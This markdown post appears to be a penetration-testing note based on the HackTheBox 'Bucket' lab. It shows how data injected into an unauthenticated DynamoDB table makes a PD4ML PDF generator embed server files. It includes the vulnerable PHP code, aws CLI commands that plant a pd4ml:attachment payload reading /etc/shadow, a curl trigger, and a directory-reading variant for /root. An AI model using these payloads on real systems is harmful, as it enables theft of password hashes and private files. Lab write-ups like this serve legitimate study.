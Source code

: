 ```yaml
---
layout: post
title: PD4ML Attachment from DynamoDB
description: PD4ML Attachment from DynamoDB
summary: PD4ML Attachment from DynamoDB
tags: [privesc,foothold,web,aws]
minute: 1
---
```

## Overview
Attacker can gain access to sensitive files by embedding it inside PDF doc using pd4ml library via malicuous DynamoDB data.

## Environment Setup
* Server side code that allows user to trigger PDF generation

```php
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
```

* Attacker already has low privileged account access
* Unauthenticated dynamodb endpoint

## Steps
* Create the following table schema

```json
{
	"TableName": "alerts",
	"KeySchema": [{
			"AttributeName": "title",
			"KeyType": "HASH"
		},
		{
			"AttributeName": "data",
			"KeyType": "RANGE"
		}
	],
	"AttributeDefinitions": [{
			"AttributeName": "title",
			"AttributeType": "S"
		},
		{
			"AttributeName": "data",
			"AttributeType": "S"
		}
	],
	"ProvisionedThroughput": {
		"ReadCapacityUnits": 5,
		"WriteCapacityUnits": 5
	}
}
```

* Create dynamodb table by passing json file above

```bash
aws --endpoint-url http://s3.bucket.htb dynamodb create-table --cli-input-json file://./alerts.json
```

* Add data on the table

```bash
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///etc/shadow</pd4ml:attachment>"}}
```

* Trigger PDF generation by accessing the webpage

```bash
curl -X POST 'http://localhost:8000' -d 'action=get_alerts'
```

* Visit the webpage in the browser and download the embedded file inside the pdf

![](/spindel/assets/PD4ML%20Attachment%20from%20DynamoDB/AD8F0FAA-8C7E-4FAE-8EB8-E937CFB7A0DB.png)

* The embedded file contains `/etc/shadow` of the victim server

## Alternatives
* Instead of attaching files, you can also attach directory paths. The resulting embedded file inside the PDF document will contain the contents of the directory.

```
file:///root
```

## Refeferences
* HTB Bucket
